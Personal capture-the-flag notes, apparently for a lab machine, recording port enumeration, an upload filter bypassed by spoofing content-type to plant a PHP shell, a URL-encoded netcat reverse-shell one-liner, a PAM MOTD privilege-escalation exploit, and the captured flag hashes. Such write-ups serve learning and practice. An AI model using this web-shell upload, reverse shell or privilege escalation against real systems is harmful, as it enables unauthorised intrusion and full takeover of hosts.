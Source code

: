 ### LESSONS LEARNED : 
- Always use gobuster medium and common , do note on this
- If Creating your own torrent file wont do , just download real one
- Always check for files especially user home files
- Update finding files skill / note
- Update upload bypass notes


Port 22
=========
 OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)

Port 80
============
/test
Suhosin Patch 0.9.7

/torrent
can register account to login and upload file but php not allowed


/rename
allow file rename
?filename=index.html&newfilename=test.html
No such file or directory in /var/www/rename/index.php on line 4

upload kali image downloaded from kali official website
edit torrent and add screenshot

file extension : test1.php
```
content-type : image/png
```
looks like file name is not filtered but content-type is filtered


/torret/uploads/ewqo9129321-test1.php
```
?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.26%204567%20%3E%2Ftmp%2Ff
```
cat /etc/passwd got user george
at /home/george found .cache/motd.legal-displayed 

quick google "motd.legal-displayed exploit" found
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation

wget it from localhost to remote machine and run
./exploit.sh

root : dac9f0feac2821f258795a2570209e36
user : 07315850a09835d330fae25fa6df0612


